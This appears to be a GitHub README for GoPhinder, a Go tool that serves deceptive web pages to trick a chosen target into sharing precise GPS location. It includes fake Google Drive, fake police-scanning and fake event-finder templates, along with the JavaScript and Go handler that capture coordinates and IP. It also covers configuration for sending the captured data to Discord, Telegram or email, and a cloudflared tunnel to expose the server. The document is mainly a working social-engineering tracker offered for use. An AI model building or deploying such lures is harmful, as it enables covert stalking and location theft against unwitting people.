 <div align="center">
  <img src="./assets/logo.png" alt="GoPhinder" />
  <h1><strong>GoPhinder</strong></h1>
  <p>📍 Social Engineering Accurate Tracking of Devices 📍</p>
</div>

Inspired by [seeker](https://github.com/thewhiteh4t/seeker), this concept is much like phishing for credentials, but instead for precise GPS details. With the ease of capturing gps details via javascript, crafting an enticing website for a given target to grant location based permissions is one of many social engineering strategies.

# Usage
```bash
Usage of ./finder:
  -h	Show usage
  -p int
    	Web Server port (default 8080)
  -t string
    	Path to template file (default "templates/index.html")
```

## Output
```bash
[+] Server running on http://localhost:8080
┌──[Access Log]────────────[2025-05-01 22:56:55]
│ [+] Language     : en-US,en;q=0.9
│ [+] Referer      : http://localhost:8080/
│ [+] IP Address   : ::1
│ [+] User-Agent   : Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.5 Safari/605.1.15
└─────────────────────────────────────────────────────

┌──[Location Log]────────────[2025-05-01 23:04:24]
│ [+] Longitude    : xxxx
│ [+] Google Maps  : https://maps.google.com/?q=xxxx,xxxx
│ [+] IP Address   : ::1
│ [+] Latitude     : xxxx
└───────────────────────────────────────────────────────
```

## Additional output
Additional logging/output can be attained and pushed to stdout with ease.
An approach can look like such:
```golang
func HandleTrack() http.HandlerFunc {
	return func(w http.ResponseWriter, r *http.Request) {
		var data struct { // gets data form json response form webpage
            Lat float64 `json:"lat"`
            Lon float64 `json:"lon"`
        }
		if err := json.NewDecoder(r.Body).Decode(&data); err != nil {
			log.Printf("JSON decode error: %v", err)
			http.Error(w, "Bad Request", http.StatusBadRequest)
			return
		}

		ip := utils.GetIP(r) // get the ip
		fields := map[string]string{ // create map
			"IP Address":  ip, // can be anything
			"Latitude":    fmt.Sprintf("%.6f", data.Lat),
			"Longitude":   fmt.Sprintf("%.6f", data.Lon),
			"Google Maps": fmt.Sprintf("https://maps.google.com/?q=%.6f,%.6f", data.Lat, data.Lon),
		}
		logging.LogBlock("Location Log", fields) // push to the log
		w.WriteHeader(http.StatusOK) // push 200 back to client
	}
}
```

# Templates
Default templates can be found in the *templates* directory
* Fake Google Drive Access Link
* Fake Emergency/Police Local Scanning Service
* Fake Private Event Finder

By default, the templates only gather location based information as seen below
```javascript
navigator.geolocation.getCurrentPosition(function(position) { // get exact location
    fetch(window.location.origin + "/track", { // send to backend
        method: "POST",
        headers: {
            "Content-Type": "application/json"
        },
        body: JSON.stringify({
            lat: position.coords.latitude,
            lon: position.coords.longitude
        })
    });
});
```

You can **add/customize** templates as needed, throw in a button click to execute, or do what you please!
The idea is to not have something so suspicious in terms of the context within the page.

## External Logging
1. A discord webhook can be specified to automatically send logs.
2. An email can be specified to automatically retain logs.
3. Telegram can be specified to retain logs.
4. A webhook URL can be specified to retain logs.

## External Exfiltration
To get automatic updates elsewhere, you can specify your *discord webhook, telegram token, and email credentials*. This can be done by editing the **config.json** file.
```json
{
  "discord": {
    "enabled": false,
    "webhook_url": "https://discord.com/api/webhooks/..."
  },
  "telegram": {
    "enabled": false,
    "bot_token": "123456:ABC-DEF1234ghIkl-zyx57W2v1u123ew11",
    "chat_id": "987654321"
  },
  "email": {
    "enabled": false,
    "smtp_host": "smtp.gmail.com",
    "smtp_port": 587,
    "username": "your@email.com",
    "password": "yourpassword",
    "to": "recipient@email.com"
  }
}
```

By **default**, the exfiltration methods are set to false, but one can enable as many as needed.

## Screenshot
<img src="./assets/example.png" alt="GoPhinder" />

# tunneling
Tunneling like the classic way goes can be as followed:
```bash
# cloudflared must be installed prior ideally
cloudflared tunnel --url http://localhost:8080
```

# Contributions
Contributions are very welcomed for additional functionality, or templates!# GoPhinder
